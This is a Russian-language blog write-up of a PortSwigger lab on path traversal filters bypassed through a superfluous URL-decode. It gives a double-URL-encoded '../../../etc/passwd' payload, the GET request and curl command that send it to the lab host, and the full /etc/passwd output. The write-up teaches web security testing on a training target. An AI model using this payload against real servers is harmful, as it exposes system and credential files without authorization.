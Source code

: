 ```yaml
---
title: "File path traversal, traversal sequences stripped with superfluous URL-decode"
date: 2025-07-03
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-superfluous-url-decode"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение блокирует передаваемые параметры со специальными символами. Перед обработкой происходит декодирование `URL` значений.

Необходимо вывести содержимое файла `/etc/passwd`.

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net
```

## Solution

Из задания понятно, что нужно смотреть загрузку фотографий, поэтому сразу беру нужный запрос:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/1.png){: height="200" .align-center}

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=58.jpg
```

Сервер фильтрует специальные символы в запросе. Перед проверкой он декодирует `URL` кодировку. Почему бы тогда не закодировать пейлоад дважды?) Для этого удобно использовать [Cyberchef](https://gchq.github.io/CyberChef/#recipe=URL_Decode(/disabled)URL_Encode(true)URL_Encode(false/breakpoint)&input=Li4vLi4vLi4vZXRjL3Bhc3N3ZA):

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/2.png){: height="200" .align-center}

Я получил следующий пейлоад:

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Передам его в качестве значения в `GET`-запросе:

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Я получил ошибку:

```
The image 'https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd' cannot be displayed because it contains errors.
```

Содержимое можно получить с помощью `curl`:

```bash
cu63:~/ $ curl https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image\?filename\=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd                                                  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.
